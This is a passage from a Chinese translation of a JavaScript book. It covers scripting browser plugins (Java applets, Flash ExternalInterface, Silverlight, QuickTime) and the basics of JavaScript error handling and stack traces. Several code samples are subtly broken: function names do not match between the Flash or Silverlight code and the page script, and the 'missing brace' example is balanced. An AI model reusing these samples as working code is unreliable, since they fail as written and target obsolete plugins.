- `矢量标记语言`（`VML`）是一种用于 Internet Explorer 的基于对象的图形 API，其优势是作为浏览器 DOM 的一部分。`VML` 中的动画实现方式与 `DHTML` 相同。
- `Web Workers` 对 `Firefox` 来说是新的，并且也实现了新的 `WHATWG` 线程标准。`Web Workers` 与 `Gears` 中的 `WorkerPool` 功能非常相似。

在第 23 章中，我将查看 JavaScript 与流行浏览器插件的接口，如 `Java Applets`；`Silverlight` 和 `Flash`；`Quicktime` 以及 `DivX`。

## 23 插件

插件是可以嵌入到浏览器内部的第三方组件。许多浏览器插件都带有 JavaScript API，以便开发者可以控制它们在页面内的行为。并不是所有插件都有图形用户界面（GUI）。有时，你对插件可能只想要一小部分功能，用于执行简单的操作，如播放声音或上传文件。在其他时候，插件在 Web 应用中占据重要地位，例如 YouTube 上的 `Flash` 播放器。

现代浏览器内部有很多强大的功能，但并不是你想做的每一都是可能的，或者有足够的浏览器原生支持以发挥其实用。有人认为，也许浏览器*不应该*做所有事情。动画、游戏和视频等功能可能最适合由 `Firefox` 和 `Internet Explorer` 等内置的丰富插件架构处理。无论你持何种观点，不可否认插件为浏览体验增加了很多。

在本章中，我将介绍四个不同的插件：`Java Applets`、`Flash`、`Silverlight` 和 `Quicktime`。在 `Java`、`Flash` 和 `Silverlight` 的情况下，预计你对这些技术具备一定的水平才能开始将它们作为插件。本章不会教你如何用 `Java`、`AS3`（`Flash`）或 `C#`（`Silverlight`）编程，但它将重点关注在需要时如何通过 JavaScript 与这些插件进行通信。

# Java Applets

Applets 在 1995 年随第一版 `Java` 一起引入。它们是用于网页的嵌入式 Java 程序，允许实现网页中其他时候无法实现的功能。Applets 还有其他优势。它们运行在大多数操作系统的大多数 浏览器上。它们非常高效，并且当用户重新加载页面时会被缓存。由于 Applets 被编译为 Java 字节码，因此它们的运行速度相当快，且内部代码对窥探者是安全的（与 `JavaScript` 不同）。在 `JavaScript` 中，你可以直接从网页内部调用 applet 的方法和属性。你也可以从 Applet *向外* 调用 JavaScript 方法。

为了让 `Applet` 能够被脚本化，你必须在页面上的 `applet` 标签上通过 `id` 属性对其进行指定。或者，你可以使用 `name` 属性，但访问它的方式会有所不同。无论哪种方式，这都是你从脚本*进入* `Applet` 的访问点：

```html
<applet
    name="JSTestApplet"
    id="JSTestApplet"
    height="20"
    width="100"
    alt="Browser has Java disabled"
    code="JSTest">
</applet>
```

正如 applet 标签的 `code` 属性所示，浏览器将寻找一个名为 `JSTest.class` 的文件。为了生成这个编译后的类文件，我必须从一个简单的 `Swing` 开始：

```java
import javax.swing.*;
public class JSTest extends JApplet {
    JTextArea text = new JTextArea(100,100);
    public JSTest() {
        text.setText("Hi, I'm an applet");
        getContentPane().add(text);
    }
    public void setText(String s) {
        text.setText(s);
    }
}
```

在这个 applet 中，我创建了一个新的文本区域并赋值给实例 `text`。接下来我定义了构造函数并为文本字段设置了初始值。最后，我将该字段添加到内容面板中。有一个名为 `setText()` 的公共方法，允许我向文本字段写入。我将使用 JDK 编译此应用程序：

```bash
javac JSTest.java
```

这会产生 `JSTest.class` 文件。现在我准备好将其嵌入网页并从 `JavaScript` 访问它。为了做到，我将首先创建一个按钮，在点击时调用函数。

有两种方法可以访问 applet 内部的方法。一种方法是通过 `name` 属性，在这种情况下可以通过调用 `document.applet` 来引用它。另一种方法是通过对 `id` 属性调用 `document.getElementById()` 获取 applet 的句柄。在这种情况下，我们通过名称引用它：

```javascript
function sendText() {
    document.JSTestApplet.setText("Hello from JavaScript!");
}
```

当用户点击按钮时，applet 将改变并显示文本 ″I called!″你可以在图 23-1 中看到结果。

Adobe Flash 可能是互联网上最普及的插件。它最初作为发布简单游戏和其他娱乐应用的方式而广为人知，但现在已成为一种强大的开发工具，能够提供高清直播视频和音频、3D 游戏，甚至是企业级业务应用程序。Adobe 声称，98% 的美国 Web 用户和 99.3% 的所有连接互联网的桌面用户都安装了 Flash Player，其中大约一半的用户使用的是最新版本（目前是第 10 版）。Adobe 在发布新版本时迅速升级用户群方面也拥有令人印象深刻的记录。下载 Flash Player 仅需片刻，而且用户在启动电脑时会自动提示进行更新。

Flash 还具有其他有趣的分发特性。例如，用户倾向于信任 Flash Player。当微软因 Internet Explorer 6 的 ActiveX 插件模型的安全漏洞而受到批评时，Flash 的采用率却达到了前所未有的高度。Flash 往往是严格控制的企业环境中极少数`不`被禁用的插件之一。

通过使用名为 `ExternalInterface` 的 API，从 8 版本开始，可以在 JavaScript 和 Flash 电影之间进行双向通信。在 8 版本之前，开发者使用一个已弃用的 API `fscommand()`。`ExternalInterface` 高效地将 Flash 电影内部的 ECMAScript 世界与网页外部的 JavaScript 世界连接起来。你可能想要这样做的原因有以下几点：
* 使用 `Action Message Format` 进行跨域（同源策略之外）的压缩通信信道。
* 使用 `LocalConnection` 在不同标签页之间进行消息通信。
* 使用 `SharedObject` 从持久化存储中放置或检索信息。
* 播放声音或视频。
* 触发动画或广告。

`ExternalInterface` API 并不是在`所有`浏览器中都可用，但大多数浏览器中都可用。它的可用性足以让开发者通常在消费级应用中使用它感到很放心。以下是浏览器支持情况说明：


当从 JavaScript 连接到 Flash 电影时，你可以执行任何以下任务：
* 调用 ActionScript 代码中的函数，前提是该函数已暴露给 `ExternalInterface`。
* 向该函数传递各种类型的参数，包括字符串、布尔值和数字。
* 从该函数获取返回值。

在网页上嵌入 SWF 文件以供 `ExternalInterface` 使用时，请确保不要在 `NAME` 或 `ID` 属性中使用任何这些字符，否则你在从 JavaScript 访问它时会遇到麻烦：`″ - + * / \″`

从 ActionScript 到 JavaScript 的反向操作，你可以执行任何以下操作：
* 调用任何 JavaScript 函数。这里不需要特殊的暴露。
* 向该函数传递各种数据类型的参数，包括布尔值、数字和字符串。
* 从函数获取返回值。

有几种方法可以为了 JavaScript 开发而开始学习 Flash。你可以使用 Adobe Flash CS4（甚至是 30 天免费试用版）创建一个 SWF，或者使用 Adobe Flex Builder 创建一个简单的 ActionScript 项目，甚至是一个功能完整的 Flex 应用，并将其部分内容暴露给 `ExternalInterface` 代替。我将向你展示如何使用 Flash CS4 配合 `ActionScript 3` 来完成。

## 设置你的 Flash 电影

我将从打开 Flash CS4 并使用 `ActionScript 3.0` 创建一个新的 Flash 文件开始。然后，我将使用 `Modify/Document` 菜单将电影区域调整为 200px 比 200px。正如图 23-2 所示，我用笔在两个动态文本框（Dynamic Text boxes）周围画了一些装饰，并对它们命名并放置在画布上。顶部较大的文本框名为 `YourMessageHere`，下方较小的 `″button″ 的 id 为 `ClickMeButton`。

在演示中，我将在 `ActionScript 3.0` 中工作，这是你所熟悉的 ECMAScript 的变体。它是 `ECMAScript v4` 的实现，该版本从未被批准，并且从那以后失去了整个开发社区的大部分支持。虽然它不一定代表 JavaScript 的未来，但来自 `ES4` 的元素可能会合并到 JavaScript 的下一个中。
图 23-2

接下来，我通过 `Window` 菜单访问 Actions 面板并弹出一个代码窗口。在这里我想做的第一件事是链接 `ExternalInterface` 库，它位于 `flash.external object` 中：

```
import flash.external.ExternalInterface;
```

现在我可以开始编写我的程序了。我想创建一个方法，用于设置名为 `YourMessageHere` 的大动态文本框的文本。为了实现这一点，我会创建一个名为 `currentText` 的属性，它可以作为文本框中任何内容的易访问副本，并创建一个名为 `setText()` 的函数，它将执行向该控件写入新文本的任务：

```actionscript
// 记录当前字符串
var currentText:String = "Your Message Here"
// 设置电影中的某些文本
function setText(newtext:String):Boolean
{
    // 备份当前值
    currentText = newtext;
    // 设置控件
    YourMessageHere.text = newtext;
    // 返回某些值
    return true;
}
```

接下来，我将为按钮连接上点击事件。

```actionscript
// 为按钮设置点击处理器
ClickMeButton.addEventListener(MouseEvent.CLICK, ClickMeButtonClick);
```

在这里我将点击事件连接到不存在的函数 `ClickMeButtonClick`。

```actionscript
// 处理按钮点击事件
function ClickMeButtonClick(evt:MouseEvent):Boolean
{
// 访问 JavaScript 获取文本
    var newText = ExternalInterface.call("NewText", "ClickMeButton");
    setText(newText);
    return true;
}
```


# 与插件交互

我想做的最后一件事是向外部世界暴露一些函数。我通过 `addCallback()` 实现。

```actionscript
// 将这些属性暴露给外部世界
ExternalInterface.addCallback("setText", setText);
ExternalInterface.addCallback("currentText", function() {return currentText});
```

你可以在图 23-3 中看到整个程序。


我需要做的最后一件事是 `publish`（发布）电影以生成 SWF 文件。可以使用文件菜单来实现。你唯一真正需要检查的设置是 Script Access（脚本访问）应该设置为 Always（始终）或 Same Domain（相同域）。

## 使用 SWFObject 嵌入

接下来，你将需要某种方式将 Flash 电影嵌入到页面中。目前最好的方法是使用一个名为 `SWFObject` 的库，你可以从 [`code.google.com/p/swfobject/`](http://code.google.com/p/swfobject/) 免费下载。`SWFObject` 允许你将 Flash 电影动态嵌入文档中。要使用它，只需在文档中包含 `swfobject.js` 文件，然后使用 `embedSWF()` 将电影动态插入到 DOM 中。

在后台，`SWFObject` 执行的功能远不止插入 Flash 电影：

- 它会检测可用的 Flash 播放器版本，并显示替代内容或在用户许可的情况下启动升级。
- 解决与 Flash 播放器以及各种浏览器（如 `Internet Explorer 6` 和 `WebKit`）相关的已知问题。
- 破解 `IE6` 中引入的“点击激活”机制。
- 提供广泛的 JavaScript API 与电影进行交互。

当我嵌入上一节中的电影时，我需要确保其存在的关键属性是 `allowscriptaccess`。该属性启用或禁用 `ExternalInterface` API。你可以将其设置为 `samedomain` 或 `always`：

```html
<script type="text/javascript" src="swfobject.js"></script>
<script type="text/javascript">
    var flashvars = {};
    var params = {};
    params.allowscriptaccess = "always";
    var attributes = {};
    attributes.id = "messageHere";
    swfobject.embedSWF("messagehere.swf", "myAlternativeContent", "200", "200", "9.0.0", false, flashvars, params, attributes);
</script>
<div id="myAlternativeContent">
    <a href="http://www.adobe.com/go/getflashplayer">
        
    </a>
</div>
```

有一需要记住的一点是，在 `Internet Explorer` 中，你必须将电影放在屏幕的可见区域才能使用 `ExternalInterface`。将其绝对定位在屏幕外或使用 `display:none` 可能会导致获取暴露方法的引用变得困难。

## 访问方法和属性

现在，我可以开始接线页面并测试 JavaScript 接口了。如果我现在运行该页面，将看到带有默认文本的电影。让我们制作两个按钮，调用 Flash 电影中两个暴露的函数：

```html
<button onclick="sendSomeText()">发送某些文本</button>
<button onclick="alertCurrentText()">显示当前文本</button>
```

第一个按钮 `sendSomeText()` 调用了一个 JavaScript 函数，该函数将调用我之前创建的内部 Flash 函数 `setText()`。以下是该函数的 JavaScript 代码：

```javascript
// 向 flash 发送消息
function sendSomeText() {
    var newText = "Hi from JavaScript!";
    var swfObj = document.getElementById("messageHere");
    swfObj.setText(newText);
}
```

为了获取 Flash 电影的引用，我只需要对使用 `SWFObject` 赋予电影的 `id` 使用 `getElementById()`。然后我就可以直接在那个对象上调用方法。第二个按钮调用了一个名为 `alertCurrentText()` 的函数，该函数调用电影内部的 `currentText()`：

```javascript
// 显示当前文本
function alertCurrentText() {
    var swfObj = document.getElementById("messageHere");
    alert(swfObj.currentText());
}
```

最后一块拼图是一个从电影*内部*调用 JavaScript 的函数 `getNewText()`。我现在必须创建一个同名的函数，该函数接受一个参数并返回某些文本作为结果。当用户点击电影内部的“点击我”时，`ExternalInterface` 会调用此函数并将结果显示在大文本字段中：

```javascript
// Flash 将调用此函数
function getNewText(whosCalling) {
    return "Hi " + whosCalling + ". Nice to meet you";
}
```

在点击第一个按钮后，你可以在图 23-4 中看到结果。


`ExternalInterface` API 不仅适用于用 `Flash CS4` 制作的电影，也适用于 `Flex`。

## Silverlight 交互

微软提供了一个名为 `Silverlight.js` 的便捷 JavaScript 库，它可以处理创建对象标签和解决浏览器特定问题的繁重工作。要在测试页面中嵌入电影，请点击项目创建的 `Default.aspx` 页面，并在 `<head>` 中添加对该文件的引用：

```html
<script type="text/javascript" src="Silverlight.js"></script>
```

接下来，使用 `Silverlight.createObject()` 嵌入电影并将其附加到页面某处的容器元素上。该函数采用以下语法：`Silverlight.createObject(source, parentElement, id, properties, events, initParams, userContext)`

并不是所有的参数都是必需的。在这里我只使用了前四个：

```html
<div id="movieContainer"></div>
<script type="text/javascript">
    Silverlight.createObject(
        "ClientBin/SilverlightJSTest.xap", // source
        document.getElementById("movieContainer"), // parent element
        "jsTest", // 生成的对象元素的 id
        {width: "100%", height: "100%", background: "white", enableHtmlAccess: "true"}
    );
</script>
```

这将在页面加载时生成电影，并赋予它一个 id `"jsTest"`。它还使用了 `enableHtmlAccess` 设置，这允许 Silverlight 电影与 Web 页面的 DOM 通信，并让 JavaScript 与电影进行通信。

### RegisterScriptableObject 介绍

现在我要来构建一些功能。当用户点击按钮时，我希望我的 C# 代码调用页面中的 JavaScript 函数，并获取一些文本显示在文本框中。在 HTML 页面上，我将有一个按钮执行相反的操作：调用 C# 代码并在其中触发一个更改文本的函数。让我们进入代码后台（code-behind）创建该函数。在解决方案管理器中，展开 `Page.xaml` 文档并双击其下方的 `.CS` 文件。这就是我的“代码后台”文档。我想做的第一件事是在页面顶部的全局包含中添加 `System.Windows.Browser` 的引用（如果还没有的话）：

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Net;
using System.Windows;
using System.Windows.Controls;
using System.Windows.Documents;
using System.Windows.Input;
using System.Windows.Media;
using System.Windows.Media.Animation;
using System.Windows.Shapes;
using System.Windows.Browser;
```

接下来，在我的 `Page()` 构造函数中，我将添加对 `HtmlPage.RegisterScriptableObject()` 的调用，它就像 `ExternalInterface` 一样将我的程序部分暴露给 JavaScript：

```csharp
public Page()
{
    InitializeComponent();
    HtmlPage.RegisterScriptableObject("Page", this);
}
```

这将使得类中所有可脚本的公共方法可以通过 JavaScript 访问对象 `content.Page` 来调用。现在，我想添加一个名为 `setText()` 的函数，它将更改文本框的内容。我将设为公共函数并添加 `ScriptableMember` 指令，这告诉程序我想让此函数从外部访问。

```csharp
[ScriptableMember]
public void setText(string str)
{
    myTB.Text = str;
}
```

我将执行相同的操作来返回文本框的当前值：

```csharp
[ScriptableMember]
public string getText()
{
    return myTB.Text;
}
```

我将做的最后一件事是为我创建的按钮创建一个点击处理程序。我通过返回设计视图并双击按钮来实现。我的点击处理程序将自动创建。在其中，我将调用 `HtmlPage.Window.Invoke()`，它会连接页面的 JavaScript 并带有特定参数调用函数。我将调用一个名为 `getText()` 的不存在函数，它将返回一个字符串：

```csharp
private void myButton_Click(object sender, RoutedEventArgs e)
{
    string result = HtmlPage.Window.Invoke("getText", new string[] { "myButton" }).ToString();
    setText(result);
}
```

在从 `getText()` 获取字符串后，我使用它来设置电影中文本框的文本值。我的 Silverlight 应用的 C# 部分现在完成了。我可以编译电影，然后返回到包含它的页面 HTML 页面。

### JavaScript 与 Silverlight 的通信

在此阶段，我已经准备好并运行了以下拼图碎片：一个已编译的 Silverlight 电影及其准备在网页中使用的 `.xap` 文件，以及一个嵌入了该电影的网页。我唯一需要做的是创建一些与电影通信的 JavaScript 函数，以及几个触发它们的按钮。我将从一个调用电影内部 `setText()` 的按钮开始：

```html
<button onclick="return setSomeText()">Set Some Text</button>
```

```javascript
<script type="text/javascript">
function setSomeText() {
    var sObj = document.getElementById("jsTest");
    sObj.content.setText("Hi");
    return false;
}
</script>
```

函数 `setSomeText()` 首先获取由 `jsTest` 标识的电影句柄。然后它通过 `content.Page` 调用可脚本的公共函数 `setText()`。当用户点击按钮时，文本框将突然显示单词 `"Hi"`。接下来，我需要定义一个名为 `getText()` 的函数，该函数从电影内部调用。这个非常简单。我知道将传递一个参数，所以我只需要提供：

```javascript
function getText(callerName) {
    return "Hello from " + callerName + "!";
}
```

当用户点击电影中的按钮时，将在文本框中看到来自 JavaScript 函数的文本（参见图 23-7）。

## QuickTime

除了 Internet Explorer 之外的大多数浏览器支持一个名为 `navigator.plugins` 的特殊数组，它包含了已安装插件列表，使得检查特定的插件名称变得简单。在 Internet Explorer 中，实现同样的操作却异常地困难。`IE` 拥有相同的数组，但它是空的，因此对检测插件毫无用处。相反，你需要做一些令人难以置信的事情：使用 VBScript。这是一本关于 JavaScript 的书，而不是 VBScript，但为了解决这个困难的问题，真的没有其他办法，只能在检测脚本中包含 VBScript。Internet Explorer 是唯一支持 VBScript 作为脚本语言以及 JavaScript 替代方案的浏览器。尽管 VBScript 有许多缺点，但它相比 JavaScript 有某些优势（我对用这个词很谨慎）。其中之一就是它提供检测 ActiveX 对象是否存在的方法，而 JavaScript 无法做到。我将从 `IE` 检测方法开始，以在所有其他浏览器中检测 QuickTime 的分支结束。由于我必须使用 VBScript 和 JavaScript 来完成此任务，我需要在文档中使用多个 `script` 标签。我将首先创建检测变量并将其初始状态设为 `false`：

```html
<script language="Javascript" type="text/javascript">
var QuickTimeEnabled = false;
</script>
```

接下来，我将创建另一个脚本块并将其语言属性设置为 VBScript。只有 Internet Explorer 会注意这段脚本。其他浏览器只会跳过它。在这里，我使用 `CreateObject()` 方法尝试实例化一个关键的 QuickTime 组件。如果失败，它会显示错误，脚本直接跳转到下一行。

```html
<script language="VBScript">
On Error Resume Next
Set theObject = CreateObject("QuickTimeCheckObject.QuickTimeCheck.1")
On Error goto 0
If IsObject(theObject) Then
   If theObject.IsQuickTimeAvailable(0) Then
       QuickTimeEnabled = true
   End If
End If
</script>
```

最后，我可以针对非 IE 浏览器切换回 JavaScript 并查看插件集合。在这里，我遍历集合中的每个项目，并将其与字符串 `"QuickTime."` 进行比较。如果找到，它将把检测变量设为 `true`。最后，对于 5.0 之前的 Mac IE 版本，它无法执行这种检测，因此它直接假设它存在。

```html
<script language="Javascript" type="text/javascript">
if (navigator.plugins)
    for (i=0; i < navigator.plugins.length; i++ )
        if (navigator.plugins[i].name.indexOf("QuickTime") >= 0)
            { QuickTimeEnabled = true; }

if ((navigator.appVersion.indexOf("Mac") > 0) && (navigator.appName.substring(0,9) == "Microsoft") && (parseInt(navigator.appVersion) < 5))
    { QuickTimeEnabled = true; }
</script>
```

现在我测试该属性被设为 `true` 或 `false` 并显示结果：你的浏览器支持 QuickTime 吗？

```html
<script type="text/javascript">
    document.write((QuickTimeEnabled ? "yes" : "no"));
</script>
```

### 嵌入 QuickTime 电影

绕过浏览器特异性以及 `object` 和 `embed` 标签细节来嵌入 QuickTime 电影最简单的方法是使用 Apple 提供的 JavaScript 库 `AC_Quicktime.js`。该库目前可以在 [`developer.apple.com/internet/AC_Quicktime.js`](http://developer.apple.com/internet/AC_Quicktime.js) 下载。`AC_Quicktime` 提供了 `SWFObject` 类似的功能。在我的示例中，我直接从 Apple 的 Web 服务器引用文件，但你应该下载该文件并在本地引用它。一旦包含了此文件，你可以像这样使用 `QT_WriteOBJECT()` 嵌入电影：

```html
<script type="text/javascript">
QT_WriteOBJECT('/kittycard.mov', '352', '288', "");
</script>
```

这将使用文件 `"kittycard.mov"` 创建一个电影，分配的宽度为 352 像素，高度为 288 像素。第四个参数 ActiveX 版本可以留空，以便默认默认为最新版本。宽度和高度值也可以表示为可用屏幕区域的百分比。

在 ActiveX 版本号参数之后，每两个参数代表一个键值对，将设置在创建的 `embed` 或 `object` 标签中。例如：

```html
<script language="javascript" type="text/javascript">
QT_WriteOBJECT('/kittycard.mov', '352', '288', "", 'SCALE', 'aspect', 'obj#ID', 'movieFile', 'emb#ID', 'movieFile');
</script>
```

在此示例中，`SCALE` 属性将被设置为 `aspect`。接下来，`OBJECT` 标签的 ID 属性（如果使用了 object 标签）将被设置为 `movieFile`，`EMBED` 标签的 ID 属性（如果使用了 embed 标签）也将设置为 `movieFile`。参数不需要按顺序，但键值对必须先定义键，后定义值。作为替代方案，还有几个与 `QT_WriteOBJECT()` 类似的函数可以执行此操作的变体。

### 从 JavaScript 控制电影

QuickTime 内置了一个丰富的 API，允许你通过 JavaScript 执行播放、停止、倒回（寻道）、循环播放、翻转电影等操作。要使用这些功能，你应该：

- 如果电影是 `EMBED`，则给它一个 `name` 属性
- 如果电影是 `OBJECT`，则给它一个 `id` 属性
- 将 `JavaScript` 属性设置为 `true`

使用 `QT_WriteOBJECT()` 方法执行此操作，你可以编写如下代码：

```javascript
QT_WriteOBJECT('/kittycard.mov', '352', '288', "", 'EnableJavaScript', 'True', 'emb#NAME', 'kittyVideo', 'obj#id', 'kittyVideo');
```

方法嵌入在电影本身中，引用电影的最佳方式是无论使用 `EMBED` 还是 `OBJECT`，都引用其名称。以下函数将对电影执行任意命令：

```javascript
function doCommand(command) {
   document.kittyVideo[command]();
}
```

如果我想通过调用 `Play()` 方法让按钮启动播放，可以这样做：

```html
<button onclick="doCommand('Play')">Play</button>
```

同样地，这个按钮将停止播放：

```html
<button onclick="doCommand('Stop')">Stop</button>
```

### 电影事件

电影还可以发布许多可以使用 DOM 附加接入的 DOM 事件。要启用此功能，请确保将嵌入电影的 `postdomevents` 属性设置为 `true`。然后你可以监听这些任何事件。绑定这些事件就像绑定 `click` 或 `mouseover` 等 DOM 事件一样简单。正如你在第 12 章记忆的，在 Internet Explorer 中使用 `attachEvent()`而在其他浏览器中使用 `addEventListener()`。以下示例绑定了 `qt_load`、`qt_play` 和 `qt_ended` 事件，并在每次触发时显示消息：

```html
<html>
<head>
<script src="http://developer.apple.com/internet/AC_Quicktime.js" type="text/javascript"></script>
</head>
<body onload="regListeners()">
<script language="javascript" type="text/javascript">
QT_WriteOBJECT('/kittycard.mov', '352', '288', "", 'EnableJavaScript', 'True', 'emb#NAME', 'kittyVideo', 'obj#id', 'kittyVideo', 'postdomevents', 'True');

function myAddListener(obj, evt, handler, captures) {
   if (document.addEventListener)
      obj.addEventListener(evt, handler, captures);
   else
      obj.attachEvent('on' + evt, handler);
}

function displayProgress(action) {
   document.getElementById("progress").innerHTML += action + '.<br />';
}

function regListeners() {
   myAddListener(document.getElementById("kittyVideo"), 'qt_load', function() {displayProgress('loaded')});
   myAddListener(document.getElementById("kittyVideo"), 'qt_play', function() {displayProgress('playing')});
   myAddListener(document.getElementById("kittyVideo"), 'qt_ended', function() {displayProgress('ended')});
}
</script>
<p id="progress"></p>
</body>
</html>
```

请注意，事件监听器在页面 `onload` 事件之前不会绑定。这对于浏览器兼容性非常重要。你可以在 Internet Explorer 中查看图 23-8 中的示例。


## 总结

在本章中，我讨论了如何使用 JavaScript 与流行的插件工作。我涵盖了四种不同的技术：

- **Java Applets** 可以很方便地从 JavaScript 控制，不需要过多的设置或许多限制。你可以调用方法并在它们之间传递数据。
- **Adobe Flash** 也提供了一个名为 `ExternalInterface` 的丰富的 JavaScript 接口层。我介绍了构建 ActionScript 程序的步骤，该程序通过 `ExternalInterface` 暴露某些方法，并演示了如何进行双向调用。
- **微软的 Silverlight** 提供了与 `ExternalInterface` 类似的交互 JavaScript 方法。这是通过 `HtmlPage` 类以及 `RegisterScriptableObject()` 和 `Window.Invoke()` 等方法实现的。
- 我还向你展示了如何从 JavaScript 嵌入并控制 QuickTime 电影，它具有一套相当完整的事件和控制 API。

在第 24 章中，我将讨论任何编程语言中最重要的的话题之一：`debugging`（调试）。我将介绍 JavaScript 错误，展示如何捕获错误，甚至触发你自己的自定义错误。最重要的是，我将介绍一些提供强大调试和性能分析能力的第三方工具。

# 24 调试

JavaScript 开发中曾经非常有挑战性的事情之一就是调试。当我编写 `.NET` 应用时，我经常依赖像 `Visual Studio` 这样出色的调试工具来加速发现和解决程序中故障的过程。JavaScript 并不例外，它拥有丰富的异常模型和一些神奇的工具来帮助你开发 JavaScript，甚至调试 `DOM` 和 `CSS`。掌握这些工具的价值不言而喻，而且很容易只停留在表面。JavaScript 的流行程度如此之高，以至于许多工作投入到了编写出色的调试工具上。在本章中，我介绍了大多数主要的工具，并让你对如何充分利用它们有了一个良好的了解。

## 错误类型

编程语言中的错误主要有三类分类。JavaScript 实际上会抛出相当多类型的错误，但它们本质上都是这三种基本类型之一：

- 语法错误 (Syntax errors)
- 运行时错误 (Runtime errors)
- 语义错误 (Semantic errors)

在这三种错误中，`syntax errors` 是最常见的。当违反基本的语言规则（也称为 `syntax`）时，就会发生 `syntax error`。一个常见的例子是对象的成员变量使用了双点：`myObject..myProperty`

另一个常见的例子是缺少结束括号：

```javascript
if (myVar > 10) {
    myVar = 10;
    if(myVar < 2) {
        myVar = 2;
    }
}
```

后一个示例的困难之处在于，调试工具有时不知道将你的注意力引向哪里，因为它们不确定哪个结束括号没有闭合。最后一个结束括号可能同样属于内部条件语句，也可能属于外部语句，因为空格没有意义，且解释器无法猜测它到底属于哪一个。

虽然 `syntax errors` 对于程序执行错误来说通常是致命的，但 `runtime errors` 则处于一个更灰色地带。在像 JavaScript 这样的动态语言中，如果不运行程序是不可能检测运行时错误的。运行时错误通常发生在引用不存在的变量或方法名时。例如：

```javascript
var myObj = {};
myObject.myProperty = 10; // Runtime Error
```

JavaScript 可能也会将这个例子称为 `ReferenceError`，但它实际上是运行时错误的一种。幸运的是，这样的运行时错误通常可以捕获并优雅地处理，而语法错误通常无法使用 `try..catch` 等语言特性来捕获。

`Semantic errors` 发生在你的程序没有按照你的意图执行时。带有语义错误的程序可能会成功完成，且没有前面提到的解释器错误，但它们只是没有按照你编写的方式去执行，因为你在逻辑的某处犯了错误。目前没有真正的方法使用语言特性来捕获这些错误，但像 `Firebug` 和 `IE Developer Toolbar` 这样的调试工具确实可以帮助追踪它们。

JavaScript 还支持许多自定义错误类型：

- `RangeError`：当给某个值赋值超出其正常范围的值时抛出。
- `ReferenceError`：当引用一个不存在的标识符时抛出。
- `SyntaxError`：一种常见的语法错误。
- `TypeError`：类型不匹配。
- `URIError`：当向 URI 处理函数传递一个格式不正确的 URI 时抛出。
- `Recursion error`：在某些浏览器中当检测到过多递归时抛出，可能导致死循环。
- `Security error`：当违反安全规则时抛出。

任何抛出的错误都是 `Error` 对象的实例，我将在后文中介绍。

## Error 对象概览

无论抛出什么种类型的错误，它都是 `Error` 对象的实例，其主要属性是 `message` 和 `name`。但错误可能具有其他属性，取决于浏览器。它们的快速总结如下。这意味着无论你遇到 `RangeError` 还是 `TypeError`，都可以对错误进行检查：

```javascript
try {
    nonexistent.method();
} catch (e) {
    if (e instanceof EvalError) {
        document.write(e.name + ": " + e.message);
    } else if (e instanceof RangeError) {
        document.write(e.name + ": " + e.message);
    } else if (e instanceof ReferenceError) {
        document.write(e.name + ": " + e.message);
    } else if (e instanceof SyntaxError) {
        document.write(e.name + ": " + e.message);
    } else if (e instanceof TypeError) {
        document.write(e.name + ": " + e.message);
    } else if (e instanceof URIError) {
        document.write(e.name + ": " + e.message);
    }
}
```

上面的示例使用了 `try..catch` 语法，我稍后会描述。

## 抛出错误

使用 `Error` 对象，你也可以抛出自己的自定义错误，这在你编写他人将使用的公有 API 或组件时特别有用。`Error` 构造函数的基本语法是：`var myError = new Error(errorMessage);`

要触发错误，使用 `throw` 语句：`throw new Error("Application Error!");`

你也可以抛出一个自定义的 `SyntaxError`、`ReferenceError` 等，但这会让开发者感到困惑，因为这些错误通常是由解释器生成的，而不是程序代码。

大多数现代语言都提供了一种在异常传播时优雅处理它们的方法。JavaScript 也不例外，但它缺乏 Java 或 C# 等语言支持的一些特性。要在代码块周围放置错误“陷阱”，请使用 `try..catch..finally` 语句：

```javascript
try {
    // 某些代码
    nonexistent.method();
} catch(err) {
    alert("发生错误: " + err.name + "\n" + err.message);
} finally {
    // 可选。无论如何这段代码都会执行
}
```

如果在 `try` 块中发生异常，即使该异常发生在该块内部调用的函数深处，程序执行也会立即转移到 `catch()` 块。`catch()` 语句必须 `always` 定义一个参数来持有异常（在这种情况下为 `err`）。如果你还定义了 `finally` 块，无论是否发生异常，它都将被执行。

遗憾的是，在大多数浏览器中，没有办法可以捕获特定 `types` 的错误，除非在 `catch` 块内部嵌套大量的 `if` 语句。Mozilla 支持条件判断 `catch()`，但由于这是一项非标准功能，如果你还打算支持 Internet Explorer、WebKit 或 Opera，你就无法使用它。

你可以通过绑定到 `window.onerror` 事件来捕获全局错误，但这无法阻止错误冒泡到表面（至少在所有浏览器中并非如此）：

```javascript
window.onerror = function() {
    alert("Error!");
}
```

捕获错误有时可能像是一根“拐杖”，通常不建议这样做，因为它可能会掩盖代码中的底层问题，并实际上让调试变得更加困难。例如，如果在作用域链的高处某处有一个 `try..catch`，而你的程序正在触发错误，你可能会看到错误结果以间接的方式（如 DOM 或 CSS 问题）表现出来，但由于没有抛出异常，你不知道从哪里开始寻找问题。错误捕获也是性能杀手。尽量避免在频繁执行的代码中使用它，因为它真的会减慢整个程序的运行速度。

## 获取堆栈跟踪

某些调试器的共同功能是 `stack trace`（堆栈跟踪），它显示了导致问题代码的执行路径。例如，如果函数 `drawUser()` 调用了 `renderFace()` 然后是 `loadBitmap()`，但问题的源头是 `drawUser()` 中的某些错误数据，知道错误是在按照该特定顺序调用 `loadBitmap()` 时发生的是非常有用的。这就是调用堆栈。在 Mozilla 中，`Error` 对象有一个名为 `stack` 的属性，它包含了执行链，包括行号和参数。

例如，考虑以下代码：

```javascript
function funcA(num) {
    funcB(num*2);
}

function funcB(num) {
    funcC(num*2);
}

function funcC(num) {
    try {
        nonexistent.method();
    } catch(err) {
        // 如果是 Mozilla 则跟踪
        alert(err.stack);
    }
}

// 触发整个过程
funcA(10);
```

如果这段代码在 Mozilla 中运行，你将看到类似所示的调用堆栈：

```
funcC(40)@[http://localhost:3000/quicktest/:37]
funcB(20)@[http://localhost:3000/quicktest/:33]
funcA(10)@[http://localhost:3000/quicktest/:30]
@[http://localhost:3000/quicktest/:45]
```

然而，在不支持 stack 的其他浏览器中，我必须采取不同的处理方法。幸运的是，正如你在附录 D 中学到的，每个函数都有一个名为 `caller` 的属性，它告诉我们调用它的函数名称。函数还有一个名为 `arguments` 的属性，它提供了所有传递给它的参数列表。使用这两个属性，我应该能够组合出调用堆栈（不包括行号）。首先，让我重写我示例的最后几行：

```javascript
catch(err) {
    // 跟踪
    alert(getStackTrace(err));
}
```

